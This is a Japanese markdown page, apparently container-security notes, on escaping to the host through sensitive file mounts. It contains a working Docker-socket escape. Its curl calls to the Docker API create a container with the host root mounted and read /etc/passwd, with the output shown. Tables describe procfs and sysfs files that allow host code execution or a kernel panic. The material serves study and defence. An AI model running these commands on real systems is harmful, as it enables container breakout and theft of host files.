

# Sensitive File Mount

コンテナに特定のファイルをマウントした場合に、ホスト側にエスケープできるケースがあります。

## Docker Socket

Docker Daemon と通信を行うソケットをコンテナにマウントすると、コンテナから任意の HTTP リクエストを送信できるため、ホスト側にエスケープすることができます。

```sh
ubuntu@docker:~$ docker run --rm -it -v /var/run/docker.sock:/var/run/docker.sock ubuntu:latest bash
# コンテナ一覧を取得できる
root@3ba2c2752b26:/# curl --unix-socket /var/run/docker.sock http:/v1.24/containers/json
[{"Id":"3ba2c2752b264486b24d5ae00c2a4b6d00b341fe8001f1e703ecadd4ee44655e","Names":["/eager_wozniak"],"Image":"ubuntu:latest","ImageID":"sha256:bb0eaf4eee00c28cb8ffd54e571dd225f1dd2ed8d8751b2835c31e84188bf2de","Command":"bash","Created":1605360446,"Ports":[],"Labels":{},"State":"running","Status":"Up About a minute","HostConfig":{"NetworkMode":"default"},"NetworkSettings":{"Networks":{"bridge":{"IPAMConfig":null,"Links":null,"Aliases":null,"NetworkID":"fdc64dc8a87c0c6a25e6186c5713f03c36a6be049d9a800d745a4d0c7e6c93de","EndpointID":"609757590f10f891224587c9f48abbf3f243705660c98cfb8489aa5cecf29f51","Gateway":"172.17.0.1","IPAddress":"172.17.0.2","IPPrefixLen":16,"IPv6Gateway":"","GlobalIPv6Address":"","GlobalIPv6PrefixLen":0,"MacAddress":"02:42:ac:11:00:02","DriverOpts":null}}},"Mounts":[{"Type":"bind","Source":"/var/run/docker.sock","Destination":"/var/run/docker.sock","Mode":"","RW":true,"Propagation":"rprivate"}]}]

# host の / をマウントしたコンテナを作成
root@3ba2c2752b26:/# curl -L --unix-socket /var/run/docker.sock -X POST -H 'Content-Type: application/json' --data-binary '{"Hostname": "","Domainname": "","User": "","AttachStdin": true,"AttachStdout": true,"AttachStderr": true,"Tty": true,"OpenStdin": true,"StdinOnce": true,"Entrypoint": "/bin/bash","Image": "ubuntu","Volumes": {"/hostos/": {}},"HostConfig": {"Binds": ["/:/hostos"]}}' http://v1.24/containers/create
{"Id":"8e15f2d344fa7bf9588f82a097e7c506429b936e85bc2a60350a018a7277403f","Warnings":[]}
root@3ba2c2752b26:/# curl --unix-socket /var/run/docker.sock -X POST -H 'Content-Type: application/json' http:/v1.24/containers/8e15f2d344fa7bf9588f82a097e7c506429b936e85bc2a60350a018a7277403f/start

# cat /hostos/etc/passwd を実行
root@3ba2c2752b26:/# curl --unix-socket /var/run/docker.sock -X POST -H 'Content-Type: application/json' --data-binary '{"AttachStdin": true,"AttachStdout": true,"AttachStderr": true,"Cmd": ["cat", "/hostos/etc/passwd"],"DetachKeys": "ctrl-p,ctrl-q","Privileged": true,"Tty": true}' http:/v1.24/containers/8e15f2d344fa7bf9588f82a097e7c506429b936e85bc2a60350a018a7277403f/exec
{"Id":"0dd4ef3a6b6f63327ef950f9b90d6908006221160f8c2866ed4a8ca4d6e594fb"}
root@3ba2c2752b26:/# curl -L -i --unix-socket /var/run/docker.sock -X POST -H 'Content-Type: application/json' --data-binary '{"Detach": false,"Tty": false}' http://v1.24/exec/0dd4ef3a6b6f63327ef950f9b90d6908006221160f8c2866ed4a8ca4d6e594fb/start --output /tmp/output
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100  1831    0  1801  100    30  19159    319 --:--:-- --:--:-- --:--:-- 19478

# 取得できていることが確認できる
root@3ba2c2752b26:/# cat /tmp/output
HTTP/1.1 200 OK
Content-Type: application/vnd.docker.raw-stream
Api-Version: 1.40
Docker-Experimental: false
Ostype: linux
Server: Docker/19.03.13 (linux)

root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
```

## procfs と sysfs

procfs や sysfs はカーネルパラメータを設定したりできる機能が提供されているため、これらを利用してホスト側にエスケープしたり、ホスト側の情報を引き出すことができます。  
Docker や LXC では、このような特定のファイルは ReadOnly あるいは `/dev/null` としてマウントされていますが、もしアクセスが可能な場合をみていきます。



### procfs

| ファイル | 概要 |
|:--------:|:----:|
| `/proc/sys/kernel/core_pattern` | core ファイルの名前を指定できる。パイプが利用できるため、ホスト側での任意コード実行に繋げることが可能。|
| `/proc/sys/fs/binfmt_misc` | 指定した拡張子やマジックナンバーを持つファイルを実行する際のインタプリタを指定できる。コンテナ内のファイルを指定することで、ホスト側で対応したファイル実行時にエスケープにつながる。|
| `/proc/sysrq-trigger` | Sysrq コマンドを扱うファイル。例えばコンテナから文字列 `c` をこのファイルに書き込むことでホストにカーネルパニックを起こせる。|
| `/proc/sched_debug` | プロセスのスケジュール管理情報を持っているファイル。全ての namespace のプロセス名が含まれるため、ホストのプロセスも確認できる。 |

上記以外にも `/proc/kcore` や `/proc/kallsyms` など、コンテナから閲覧されない方が良いファイルが多数あります。

### sysfs

| ファイル | 概要 |
|:--------:|:----:|
| `/sys/kernel/uevent_helper` | uevent が発生した際に実行するプログラムを指定できる。コンテナで uevent を発生させることで、ホスト側での任意コード実行に繋げることが可能。|
| `/sys/kernel/vmcoreinfo` | カーネルのアドレスリークにつながる |

